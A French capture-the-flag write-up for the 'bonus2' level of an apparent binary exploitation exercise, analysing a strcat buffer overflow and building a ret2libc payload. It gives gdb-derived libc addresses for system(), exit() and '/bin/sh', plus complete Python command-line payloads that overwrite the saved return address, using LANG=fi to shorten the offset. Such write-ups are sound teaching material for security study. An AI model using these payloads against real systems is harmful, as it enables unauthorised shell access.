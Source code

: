 # bonus2 - Ret2Libc

## Analyse

- `strncpy()` de 40 caracteres de argv[1]: 0xbffff5e0
- `strncpy()` de 32 caracteres de argv[2]: 0xbffff608
- Ecart de 40 caracteres entre les deux adresses
- Recuperation de la variable d'ENV "LANG", changement du comportement de `greetuser()` en consequence
 ```
    +-> Si "LANG" == "fi"
    |     +-> Concatenation de "\x48\x79\x76\xc3\xa4\xc3\xa4\x20\x70\xc3\xa4\x69\x76\xc3\xa4\xc3\xa4\x20" et du 1er `strncpy()`
    |
    +-> Si "LANG" == "nl"
    |     +-> Concatenation de "Goedemiddag! " et du 1er `strncpy()`
    |
    +-> Sinon
          +-> Concatenation de "Hello " et du 1er `strncpy()`
```
- `puts()` de la concatenation

Il y a un ecart de **40 octets entre les deux adresses**, donc **si argv[1] compte 40 caracteres le "\0" sera ecrase**
**-->** le `strcat()` continuera sa route et prendra alors le second `strncpy()` jusqu'a rencontrer un '\0'

**-->** Modification du **saved-eip** du `main()` possible lorsque le retour d'`strcat()` est de +65 caracteres (si "LANG"=nothing)

`$(python -c 'print "A"*40') $(python -c 'print "B"*25 + NOTRE_INJECTION')`

**Adresse de la libc:**
```
(gdb) info proc mappings
0xb7fcf000 0xb7fd1000     0x2000        0x1a3000    /lib/i386-linux-gnu/libc-2.15.so
     |         |             |              |                   |
   debut      fin         taille      taille totale        chemin absolu
de la region            de la region    du fichier
  memoire                 memoire

```

**Adresse de `system()`:**
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

**Adresse d'`exit()`:**
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

**Adresse de la string "/bin/sh":**
```
objdump -s -j .rodata /lib/i386-linux-gnu/libc-2.15.so | grep /bin/sh
160c50      726e616c    002d6300    2f62696e    2f736800  rnal.-c./bin/sh.
   |
 offset
```

(adresse_libc + 160c50 + len("rnal.-c.")) = 0xb7f8cc58

-> 0xb7fcf000 + 0x160c50 + 0x8 = 0xb7f8cc58

**Resultat:**
`$(python -c 'print "A"*40') $(python -c 'print "B"*25 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')`

##### Mais non ! Notre injection ne sera pas copiee en entier.
**->** ``"B"*25 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7" == 37 octets alors que le `strcpy()` n'en copie que 32``

- Notre injection ce fait suite a au `strcat()` qui concatene une chaine suivant la valeur de "LANG" a nos arguments.

- Ces chaines ont des longueurs differentes, par defaut, on aura "Hello ", soit **7 caracteres**.

- On peut donc utiliser cela pour nous rapprocher d'$ebp+4.

Si **"LANG"="fi"**, on a "Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4" soit **18 caracteres** !

Grace a cela, on refait le calcul pour connaitre la distance d'$ebp+4 et **l'offset diminue de 7 octets ce qui est suffisant**.

`$(python -c 'print "A"*40') $(python -c 'print "B"*18 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')`


